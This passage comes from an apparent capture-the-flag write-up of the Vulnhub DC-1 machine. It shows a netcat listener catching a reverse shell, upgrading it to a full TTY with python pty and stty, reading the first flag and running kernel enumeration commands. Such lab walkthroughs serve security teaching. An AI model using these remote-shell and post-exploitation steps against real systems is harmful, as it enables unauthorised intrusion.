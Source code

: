 ## Initial access
Now go back to the netcat listener.
```bash
┌──(emvee㉿kali)-[~/Documents/Vulnhub/DC-1]
└─$ sudo nc -lvp 53                 
[sudo] password for emvee: 
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::53
Ncat: Listening on 0.0.0.0:53
Ncat: Connection from 10.0.2.30.
Ncat: Connection from 10.0.2.30:50530.
sh: 0: can't access tty; job control turned off
$ 

```
A connection has been established. Now we have to upgrade the tty shell a bit.

```bash
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@DC-1:/var/www$ 
www-data@DC-1:/var/www$ export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
<usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp  
www-data@DC-1:/var/www$ export TERM=xterm-256color  
export TERM=xterm-256color  
www-data@DC-1:/var/www$ alias ll='ls -lsaht --color=auto'  
alias ll='ls -lsaht --color=auto'  
```
Now we should suspend the session for a moment with `CTRL + Z`.
```bash
www-data@DC-1:/var/www$ ^Z
zsh: suspended  sudo nc -lvp 53
```
One more last step and we are ready to go.
```bash
┌──(emvee㉿kali)-[~/Documents/Vulnhub/DC-1]
└─$ stty raw -echo ; fg ; reset  
[1]  + continued  sudo nc -lvp 53

```
Now we can continue on the victim again.
```bash
www-data@DC-1:/var/www$ stty columns 200 rows 200
stty columns 200 rows 200
www-data@DC-1:/var/www$ 

```
Let's try to capture the first flag.
```bash
www-data@DC-1:/var/www$ cat flag1.txt   
cat flag1.txt
Every good CMS needs a config file - and so do you.
www-data@DC-1:/var/www$ 
```
Let's find out what Linux distro and kernal are used on this machine.
```bash
www-data@DC-1:/var/www$ uname -a
uname -a
Linux DC-1 3.2.0-6-486 #1 Debian 3.2.102-1 i686 GNU/Linux
www-data@DC-1:/var/www$ uname -mrs
uname -mrs
Linux 3.2.0-6-486 i686
www-data@DC-1:/var/www$ cat /proc/version
cat /proc/version
```